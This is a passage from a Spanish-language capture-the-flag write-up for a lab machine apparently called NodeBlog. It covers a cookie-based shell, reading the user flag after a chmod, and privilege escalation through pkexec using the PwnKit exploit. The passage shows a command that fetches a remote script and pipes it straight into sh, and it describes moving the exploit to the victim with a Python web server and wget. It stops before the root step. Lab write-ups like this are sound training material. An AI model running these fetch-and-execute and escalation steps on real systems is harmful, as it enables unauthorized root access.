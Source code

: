 Y esa seria el valor de la cookie que ingresaremos, de esta forma:

![](/assets/img/nodeBlog/11.png)

Solo recargamos y si estamos en escucha tendremos una shell

## Flag de user

Si vemos que podemos ejecutar a nivel de sudoers, nos pedira una contraseña que no sabemos cual es:

```ruby
admin@nodeblog:/home$ sudo -l
[sudo] password for admin: 
```

Si intentamos ingresar al directorio **admin**, nos dira que no tenemos permisos:

```ruby
admin@nodeblog:/home$ cd admin/
bash: cd: admin/: Permission denied
```

Sin embargo, vemos que nosotros somo el propietario de ese directorio:

```ruby
drw-r--r-- 1 admin admin 220 Jan  3  2022 admin
```

Asi que simplemente podemos darle permisos con chmod y ya esta la flag:

```ruby
admin@nodeblog:/home$ chmod +x admin/
admin@nodeblog:/home$ cat admin/user.txt 
e7713113cad6e97e6f762a60e80cba37
```

## Escalada de privilegios

### Via pwnkit

Si buscamos por binarios SUID con el comando

```ruby
find / -perm -u=s -type f 2>/dev/null
```

Podemos ver que existe el de pkexec: **/usr/bin/pkexec**, asi que existe una via potencial para escalar privilegios con **pwnkit**, para explotarla nos guiaremos de este exploit: [https://github.com/ly4k/PwnKit](https://github.com/ly4k/PwnKit)

Ahi nos dicen que podemos ejecutarlo simplemente con un comando:

```ruby
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

Sin embargo en la maquina no funcionara, asi que descargare el exploit en mi maquina y luego creare un servidor web con python para pasarlo a la maquina victima, simplemente en la maquina victima hacemos un **wget** le damos permisos y ejecutamos y ya somos root:
